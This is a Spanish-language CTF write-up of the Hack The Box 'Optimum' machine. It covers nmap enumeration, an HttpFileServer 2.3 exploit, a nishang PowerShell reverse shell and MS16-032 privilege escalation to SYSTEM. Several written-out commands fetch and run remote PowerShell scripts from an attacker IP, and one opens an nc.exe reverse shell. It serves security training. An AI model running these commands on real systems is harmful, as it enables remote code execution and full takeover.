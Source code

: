 
#  OPTIMUN MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/1.png)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
	- [[#PASANDONOS A UNA POWERSHELL|PASANDONOS A UNA POWERSHELL]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
	- [[#NOTA|NOTA]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.8 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.8 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/4.png)

no muestra nada interesante, tenemos la version del servidor web **httpfileserver 2.3**, veamos si encontramos algun exploit:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/6.png)

nos indica que debemos tener un servidor donde pueda descargar el netcat, nos movemos el netcat a nuestro directorio actual:

```bash
mv /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer
```

ademas debemos modificar esta parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/7.png)

nos colocamos a la escucha segun lo que configuramos y debemos ejecutarlo multiples veces porque en una descarga el netcat y en otra nos da la shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/8.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/9.png)

### PASANDONOS A UNA POWERSHELL

vamos a pasarnos a una powershell porque es mucho mas manejable, ademas vamos a aprender muchas cosas. Vamos a usar el script de nishang **InvokePowerShellTCP** lo tenemos en la carpeta shell de su repositorio: [nishang](https://github.com/samratashok/nishang).

creamos una copia en nuestra carpeta de trabajo, en mi caso tengo el repositorio de nishang en **/opt**:

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

lo editamos y vamos a colocar esta linea en la ultima parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/10.png)

esto lo hacemos porque vamos a cargar el script en la maquina windows en memoria, de modo que cargara el script y la ultima linea. Esta linea llama a una funcion que esta en el mismo script llamada Invoke-PowerShellTCP que nos da la conexion reversa, ademas configuramos la IP y el puerto.

Vamos a establecer un servidor en python donde esta el script y vamos a descargarlo desde windows ya que tenemos una cmd:

```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

ponemos **start /b** para que lo ejecute en segundo plano porque se queda en espera y ya no podemos usar la cmd. Esta es la forma de cargar en memoria un recurso externo mediante powershell.

Estamos a la escucha en netcat y obtenemos nuestra powershell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/11.png)

algo que debemos verificar a la hora de busacr exploits de kernel mediante wes-ng, watson, windows exploit suggester u otro es que la powershell debe estar en un proceso de la misma arquitectura del sistema operativo, s decir que si el sistema operativo es de 64 bits el proceso que os da la powershell debe ser igual de 64 bits. Esto porque a la hora de buscar exploit de kernel mediante el **systeminfo** no queremos que mnos de falsos positivos.

para comprobar esto hacemos lo siguiente en la powershell:

```bash

#verificar 64 bits

[Environment]::Is64BitOperatingSystem

[Environment]::Is64BitProcess

#verificar 32 bits

[Environment]::Is32BitOperatingSystem

[Environment]::Is32BitProcess
```

si ambos salen **True** es que el proceso es de la misma arquitectura que el sistema operativo y eso es lo que queremos. 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/12.png)

en nuestro caso no salio igual, para solucionar esto debemos invocar nuevamente el script de nishang pero usando la ruta completa de powershell:

```bash
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

si comprobamos ahora si esta igual:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/13.png)

## ELEVACION DE PRIVILEGIOS

Para ver vias potenciales para escalar privilegios usare sherlock.ps1 de rastamouse [sherlock](https://github.com/rasta-mouse/Sherlock). Lo vamos a cargar en memoria pero esta vez desde la powershell, este script tiene una funcion que verifica todas las posibles vulnerabilidades llamada **Find-AllVulns**, como lo vamos a cargar en memoria debemos colocarlo al final del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/14.png)

y lo llamamos desde la powershell (montandonos un servidor en python donde esta el script)

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Sherlock.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/15.png)

El que me funciono fue el **MS16-032**, encontre un script en powershell que permite ejecutar comandos como system. [MS16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

Nos muestra como debemos usarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/16.png)

una vez mas vamos a descargar el script y colocaremos ese ejemplo al final porque lo cargaremos en memoria, aclarar que la funcion se llama **Invoke-MS16032** y no como en el ejemplo **Invoke-MS16-032**

recordemos que ya pasamos el netcat (nc.exe) al equipo en la fase de explotacion y se encuentra en la ruta **C:\\Users\\kostas\\Desktop** asi que me mandare una cmd con netcat como system

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/17.png)

ahora nos colocamos en escucha en ese puerto y cargamos en memoria el script:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/18.png)

obtenemos una reverse shell como system y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/19.png)

### NOTA

Si vamos a querer una reverse powershell siempre ver que el proceso coincida con la arquitectura del sistma operativo.

Si vamos a cargar un script en memoria lo hacemos con:

```bash
IEX(New-Object Net.WebClient).downloadString('python server')
```

y debemos llamar a la funcion en la ultima linea o lo podemos concatenar de la siguiente manera:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1'); Invoke-MS16032 -Command "C:\Users\kostas\Desktop\nc.exe -e cmd 10.10.14.16 4646"
```